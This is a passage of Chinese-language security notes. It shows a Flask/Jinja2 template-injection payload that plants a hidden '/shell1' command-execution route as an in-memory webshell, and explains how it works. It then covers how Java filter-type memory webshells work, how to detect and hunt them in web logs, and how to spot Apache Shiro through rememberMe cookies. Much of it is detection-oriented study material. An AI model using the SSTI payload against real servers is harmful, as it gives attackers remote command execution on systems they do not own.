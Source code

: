 ##### 代码
```
http://127.0.0.1:5000/index?=content{{a.__init__.__globals__[%27__builtins__%27][%27eval%27](%22app.add_url_rule(%27/shell1%27,%20%27shell%27,%20lambda%20:__import__(%27os%27).popen(_request_ctx_stack.top.request.args.get(%27cmd%27,%20%27whoami%27)).read())%22,{%27_request_ctx_stack%27:url_for.__globals__[%27_request_ctx_stack%27],%27app%27:url_for.__globals__[%27current_app%27]})}}

需要URL编码

http://127.0.0.1:5000/index?=content{{a.__init__.__globals__['__builtins__']['eval']("app.add_url_rule('/shell1', 'shell', lambda :__import__('os').popen(_request_ctx_stack.top.request.args.get('cmd', 'whoami')).read())",{'_request_ctx_stack':url_for.__globals__['_request_ctx_stack'],'app':url_for.__globals__['current_app']})}}

函数说明：
    __class__：返回调用的参数类型
    __bases__：返回基类列表
    __builtins__：内建模块的引用，在任何地方都是可见的(包括全局)，每个 Python 脚本都会自动加载，这个模块包括了很多强大的 built-in 函数，例如eval, exec, open等
    __globals__：以字典的形式返回函数所在的全局命名空间所定义的全局变量,这里的函数可以是类class的构造函数如__init__,也可以是flask的函数如url_for等。
    add_url_rule注册了一个/shell的路由，__init__相当于构造函数，定义自己的属性，通过__init__.__globals__得到他们的命名空间从而得到builtins就可以执行内置函数如eval, exec, open等。
```

#### Java内存马
##### 原理
  FIlter为过滤器可以对用户的一些请求进行拦截修改等操作。
  当web.xml中注册了一个Filter来对某个 Servlet 程序进行拦截处理时，该 Filter 可以对Servlet 容器发送给 Servlet 程序的请求和 Servlet 程序回送给 Servlet 容器的响应进行拦截，可以决定是否将请求继续传递给 Servlet 程序，以及对请求和相应信息进行修改。
  filter型内存马是将命令执行的文件通过动态注册成一个恶意的filter，这个filter没有落地文件并可以让客户端发来的请求通过它来做命令执行。
##### filter检测思路：
  1. 带有特殊含义的filter的名字比如shell等
  2. Filter的优先级，filter内存马需要将filter调至最高
  3. 查看web.xml中有没有filter配置
  4. 检测特殊的classloader
  5. 检测classloader路径下没有class文件
  6. 检测Filter中的doFilter方法是否有恶意代码
##### 代码
  代码非常长，放在文章最后面了。

#### 内存马排查思路
  - 先判断是通过什么方法注入的内存马，可以先查看web日志是否有可疑的web访问日志，如果是filter或者listener类型就会有大量url请求路径相同参数不同的，或者页面不存在但是返回200的
  - 查看是否有类似哥斯拉、冰蝎相同的url请求，哥斯拉和冰蝎的内存马注入流量特征与普通webshell的流量特征基本吻合。
  - 查找返回200的url路径对比web目录下是否真实存在文件，如不存在大概率为内存马。
  - 如在web日志中并未发现异常，可以排查是否为中间件漏洞导致代码执行注入内存马，排查中间件的error.log日志查看是否有可疑的报错，根据注入时间和方法根据业务使用的组件排查是否可能存在java代码执行漏洞以及是否存在过webshell，排查框架漏洞，反序列化漏洞。

## 如何判断是否存在Shiro漏洞
  **未登陆的情况下**，请求包的 cookie 中没有 `rememberMe` 字段，返回包 set-Cookie 里也没有 `deleteMe` 字段
  **登陆失败**的话 ， 不管勾选 RememberMe 字段没有 ， 返回包都会有`rememberMe=deleteMe` 字段
  不勾选 RememberMe 字段 ， 登陆成功的话 ， 返回包 set-Cookie 会有`rememberMe=deleteMe` 字段。但是之后的所有请求中 Cookie 都不会有 rememberMe字段
  勾选 RememberMe 字 段 ， 登陆成功的话 ， 返回包 set-Cookie 会有`rememberMe=deleteMe` 字段，还会有 rememberMe 字段，之后的所有请求中 Cookie都会有 rememberMe 字段
